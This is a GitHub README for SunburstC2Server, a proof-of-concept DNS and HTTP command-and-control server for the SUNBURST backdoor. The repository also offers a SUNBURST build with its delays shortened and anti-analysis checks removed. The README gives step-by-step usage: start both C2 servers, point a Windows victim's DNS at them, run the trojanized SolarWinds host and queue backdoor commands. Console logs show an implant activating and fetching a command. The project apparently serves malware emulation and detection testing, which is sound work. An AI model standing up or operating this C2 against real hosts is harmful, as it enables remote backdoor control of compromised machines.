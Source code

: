 <!--
*** Thanks for checking out the Best-README-Template. If you have a suggestion
*** that would make this better, please fork the repo and create a pull request
*** or simply open an issue with the tag "enhancement".
*** Thanks again! Now go create something AMAZING! :D
***
***
***
*** To avoid retyping too much info. Do a search and replace for the following:
*** CreatePhotonW, SunburstC2Server, @CreatePhotonW, email, SunburstC2Server, PoC Sunburst DNS and HTTP C2 server
-->



<!-- PROJECT SHIELDS -->
<!--
*** I'm using markdown "reference style" links for readability.
*** Reference links are enclosed in brackets [ ] instead of parentheses ( ).
*** See the bottom of this document for the declaration of the reference variables
*** for contributors-url, forks-url, etc. This is an optional, concise syntax you may use.
*** https://www.markdownguide.org/basic-syntax/#reference-style-links
-->
<!--
[![Contributors][contributors-shield]][contributors-url]
[![Forks][forks-shield]][forks-url]
[![Stargazers][stars-shield]][stars-url]
[![Issues][issues-shield]][issues-url]
[![MIT License][license-shield]][license-url]
[![LinkedIn][linkedin-shield]][linkedin-url]
-->


<!-- PROJECT LOGO -->
<br />
<p align="center">
  <a href="https://github.com/CreatePhotonW/SunburstC2Server">
<!--    <img src="images/logo.png" alt="Logo" width="80" height="80"> -->
  </a>

  <h3 align="center">SunburstC2Server</h3>

  <p align="center">
    PoC Sunburst DNS and HTTP C2 server
    <br />
<!--    <a href="https://github.com/CreatePhotonW/SunburstC2Server"><strong>Explore the docs »</strong></a> -->
    <br />
    <br />
    <!--
    <a href="https://github.com/CreatePhotonW/SunburstC2Server">View Demo</a>
    ·
    -->
    <a href="https://github.com/CreatePhotonW/SunburstC2Server/issues">Report Bug</a>
    ·
    <a href="https://github.com/CreatePhotonW/SunburstC2Server/issues">Request Feature</a>
  </p>
</p>



<!-- TABLE OF CONTENTS -->
<details open="open">
  <summary><h2 style="display: inline-block">Table of Contents</h2></summary>
  <ol>
    <li>
      <a href="#about-the-project">About The Project</a>
    </li>
    <li>
      <a href="#getting-started">Getting Started</a>
      <ul>
        <li><a href="#prerequisites">Prerequisites</a></li>
        <li><a href="#installation">Installation</a></li>
      </ul>
    </li>
    <li><a href="#usage">Usage</a></li>
    <li><a href="#roadmap">Roadmap</a></li>
    <li><a href="#contributing">Contributing</a></li>
    <li><a href="#license">License</a></li>
    <li><a href="#contact">Contact</a></li>
  </ol>
</details>



<!-- ABOUT THE PROJECT -->
## About The Project

<!--
[![Product Name Screen Shot][product-screenshot]](https://example.com)
-->

SunburstC2Server is a proof of concept DNS and HTTP C2 servers for the SUNBURST malware based public technical writeups and sample reversing. With this, it is possible to utilize SUNBURST to run backdoor commands.

Also included is a version of SUNBURST that is convenient for testing this C2 implementation. Delays are drastically shortened and anti-analysis checks are not performed.
This C2 server would work with the unmodified sample, but waiting days to execute calc is no fun :)

<!-- 
### Built With

* []()
* []()
* []()

-->



<!-- GETTING STARTED -->
## Getting Started

To get a local copy up and running follow these simple steps.

### Prerequisites

* python3

* python packages

    ```
    sudo pip install -r requirements_dns.txt
    sudo pip install -r requirements_http.txt
    ```

### Installation

1. Clone the repo
   ```sh
   git clone https://github.com/CreatePhotonW/SunburstC2Server.git
   ```

<!-- USAGE EXAMPLES -->
## Usage

1. On a server (local or remote) run:
```
python3 sunburst_httpc2.py
```
2. In the HTTP C2 shell, type `auto_execute 5 calc` and hit enter
3. On a server (local or remote) run (replace `127.0.0.1` with the IP address of the HTTP C2 server):
```
python3 sunburst_dnsc2.py --httpc2ip 127.0.0.1
```
4. In the DNS C2 shell, type `auto_activate` and hit enter
5. Change your Windows victim's DNS server to point to the IP address of the DNS C2 server
6. Build the Visual Studio solution
7. Run SolarWinds.BusinessLayerHost.exe
8. Wait 30-60 seconds
9. SolarWinds.BusinessLayerHost.exe will reach out to the DNS C2 server and progress through the Activation phase
```
                    ___                          __        ___                    ________  
  ________ __  ____ \_ |__  __ _________  ______/  |_   __| _/ ____   ______ ____ \_____  \ 
 /  ___/  |  \/    \ | __ \|  |  \_  __ \/  ___/   __\ / __ | /    \ /  ___// ___\ /  ____/ 
 \___ \|  |  /   |  \| \_\ \  |  /|  | \/\___ \ |  |  / /_/ ||   |  \\___ \\  \___/       \ 
/____  \____/|___|  /|___  /____/ |__|  /____  \|__|  \____ ||___|  /____  \\___  /_______ \
     \/           \/     \/                  \/            \/     \/     \/     \/        \/
    
Welcome to the Sunburst DNS C2 Coordinator.
Type help or ? to list commands.

(sunburst) auto_activate
	Sunbeams will begin activation when they first connect
(sunburst) (01:08:27) [*] New sunbeam found: b'4f4774e0740a7e72'
(01:08:27) [*] sunbeam preactivated (activation step 1/2): b'4f4774e0740a7e72'
(01:08:37) [*] sunbeam activated (activation step 2/2): b'4f4774e0740a7e72'
```
10. SolarWinds.BusinessLayerHost.exe will reach out to the HTTP C2 server and fetch its first backdoor command.
```
                    ___                          __    /\      __    __                ________  
  ________ __  ____ \_ |__  __ _________  ______/  |_ |  |__ _/  |__/  |_______   ____ \_____  \ 
 /  ___/  |  \/    \ | __ \|  |  \_  __ \/  ___/   __\|  |  \\   __\   __\____ \_/ ___\ /  ____/ 
 \___ \|  |  /   |  \| \_\ \  |  /|  | \/\___ \ |  |  |      \|  |  |  | |  |_\ \  \___/       \ 
/____  \____/|___|  /|___  /____/ |__|  /____  \|__|  |___|  /|__|  |__| |   ___/\___  /_______ \
     \/           \/     \/                  \/            \/            |__|        \/        \/
    
Welcome to the Sunburst HTTP C2 Server.
Type help or ? to list commands.

(sunburst) auto_execute 5 calc
	Sunbeam will process the next auto execute job in the queue on its next HTTP response
(sunburst) (01:08:39) [*] New sunbeam found: b'4f4774e0740a7e72'
```
11. SolarWinds.BusinessLayerHost.exe will run a RunTask job (id=5) to spawn calc


<!-- ROADMAP -->
## Roadmap

See the [open issues](https://github.com/CreatePhotonW/SunburstC2Server/issues) for a list of proposed features (and known issues).



<!-- CONTRIBUTING -->
## Contributing

Contributions are what make the open source community such an amazing place to be learn, inspire, and create. Any contributions you make are **greatly appreciated**.

1. Fork the Project
2. Create your Feature Branch (`git checkout -b feature/AmazingFeature`)
3. Commit your Changes (`git commit -m 'Add some AmazingFeature'`)
4. Push to the Branch (`git push origin feature/AmazingFeature`)
5. Open a Pull Request



<!-- LICENSE -->
## License

Distributed under the MIT License. See `LICENSE` for more information.



<!-- CONTACT -->
## Contact

SecureIQlab:https://www.linkedin.com/company/secureiqlab ,CreatePhotonW - [@CreatePhotonW](https://twitter.com/CreatePhotonW)

Project Link:https://github.com/secureiqlab/Sunburst-Emulation,[https://github.com/CreatePhotonW/SunburstC2Server]




